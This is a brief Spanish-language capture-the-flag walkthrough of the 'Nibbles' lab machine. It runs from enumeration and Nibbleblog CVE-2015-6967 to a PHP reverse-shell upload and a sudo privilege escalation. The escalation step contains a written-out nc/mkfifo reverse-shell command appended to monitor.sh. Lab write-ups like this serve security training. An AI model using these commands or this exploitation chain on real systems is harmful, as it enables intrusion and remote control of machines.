

Nibbles
- Realizo un escaneo de puertos
- Encontramos el servicio SSH y el servicio HTTP
- Primero accedemos a la pagina web
- En el código de la web encuentro un comentario que menciona un directorio
- Realizo una enumeración de directorios en en la ruta http://10.10.10.75/nibbleblog/ dirb http://10.10.10.75/nibbleblog/
- Encuentro un login
- Encuentro un archivo README.
- Dentro encuentro la versión de Nibbleblog
- Buscando con searchsploit encuentro el CVE-2015-6967

- En uno de los archivos da a conocer que hay un usuario llamado admin
- Tras probar con varias credenciales pruebo a poner el nombre de la página y tengo acceso al dashboard (Se menciona en el archivo config.xml)
- Ahora la idea sería subir un archivo php para obtener un reverse shell
- Usaré el reverse de pentestmonkey
- Subo el reverse
- Accediendo a la ruta de este archivo obtengo el reverse http://10.10.10.75/nibbleblog/content/private/plugins/my_image/
- Hago un sudo -l y veo que puedo ejecutar un archivo .sh como root

- Hago un unzip del archivo para poder ejecutarlo
- Tengo que meter un reverse shell y meterlo en el archivo sh para poder obtener un reverse shell echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f' | tee -a monitor.sh
- Ejecuto el comando sudo
- Obtengo el reverse shell
